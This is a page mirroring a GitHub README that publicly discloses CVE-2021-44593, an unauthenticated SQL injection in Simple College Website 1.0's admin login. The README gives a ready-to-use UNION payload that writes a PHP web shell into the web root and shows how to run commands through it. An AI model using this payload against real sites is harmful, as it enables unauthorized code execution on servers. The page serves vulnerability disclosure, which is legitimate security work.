 # CVE-2021-44593

Public disclosure & writeup of CVE-2021-44593.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Mister-Joe](https://github.com/Mister-Joe) |
| Url      | [https://github.com/Mister-Joe/CVE-2021-44593](https://github.com/Mister-Joe/CVE-2021-44593)                                               |
| Stars    | 2                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* 2021-44593* cve* cve-2021-44593

</details>

## Readme

# CVE-2021-44593
Public disclosure of CVE-2021-44593. A SQL injection/arbitrary file upload/remote code execution vulnerability in Simple College Website.

## DESCRIPTION

Simple College Website 1.0 is vulnerable to an unauthenticated union-based SQL injection in the "username" parameter of the /admin/login.php page, which can then be leveraged to upload arbitrary files & gain remote code execution.

## COMPONENTS AFFECTED

The function ```login()``` in ```admin_class.php```

## STEPS TO REPRODUCE

1. Access the admin login page (usually /admin/login.php) 
2. Submit the login form with the POST parameter "username" containing the following UNION-based SQL injection: 
```
' union select null, null, ("<?php system($_GET['cmd']);?>"), null, null INTO OUTFILE '/var/www/html/testing.php'; -- -
```
6. Navigate to /testing.php?cmd=id

## NOTES

1. Knowledge of the web server root directory location is needed.
2. Knowledge of the document root directory location may also be needed if it is not the same as the web server root directory.
3. Further, the MySQL daemon needs to have write permissions for said directory.




## Get the content

```
git clone https://github.com/Mister-Joe/CVE-2021-44593
cd CVE-2021-44593
```

{% embed url="https://github.com/Mister-Joe/CVE-2021-44593" %}

<figure><img src="https://avatars.githubusercontent.com/u/16895391?v=4" alt=""><figcaption><p>Mister-Joe</p></figcaption></figure>
